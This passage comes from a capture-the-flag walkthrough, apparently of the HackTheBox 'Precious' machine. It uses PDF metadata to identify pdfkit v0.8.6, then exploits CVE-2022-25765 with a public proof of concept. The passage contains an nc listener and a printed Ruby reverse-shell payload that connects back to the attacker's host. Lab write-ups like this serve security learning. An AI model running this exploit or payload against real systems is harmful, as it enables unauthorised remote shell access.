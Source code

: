 It connected back to us, and it also downloaded for us a `pdf` file with a random generated name: `1nib9e3zxiltbfnl4jlsyc3z9cf77fik.pdf`. When an app generates any sort of file, we can check its metadata to see if anything interesting lies there:

```bash
$ exiftool 1nib9e3zxiltbfnl4jlsyc3z9cf77fik.pdf
ExifTool Version Number         : 12.70
File Name                       : 1nib9e3zxiltbfnl4jlsyc3z9cf77fik.pdf
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2024:01:19 19:32:33+00:00
File Access Date/Time           : 2024:01:19 19:34:37+00:00
File Inode Change Date/Time     : 2024:01:19 19:33:47+00:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We got back the version's app: `pdfkit v0.8.6`! Upon googling "*pdfkit v0.8.6 exploit*" we can see multiple references to [CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765) which refers to a **Command Injection (CI)** vulnerability. There are also multiple PoCs for it, including [this](https://github.com/UNICORDev/exploit-CVE-2022-25765)
 one. Let's try using it:

```bash
# download the PoC
$ searchsploit -m 51293
  Exploit: pdfkit v0.8.7.2 - Command Injection
      URL: https://www.exploit-db.com/exploits/51293
     Path: /usr/share/exploitdb/exploits/ruby/local/51293.py
    Codes: CVE-2022–25765
 Verified: True
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /home/kali/htb/fullpwn/precious/51293.py


```

Let's open our listener:

```bash
# setting up a listener
$ nc -lnvp 1337
listening on [any] 1337 ...
```

Let's use the exploit:

```bash
$ python3 51293.py -s 10.10.14.15 1337 -w http://precious.htb -p url

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.15","1337"))'`
LOCALIP: 10.10.14.15:1337
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 1337".
WEBSITE: http://precious.htb
```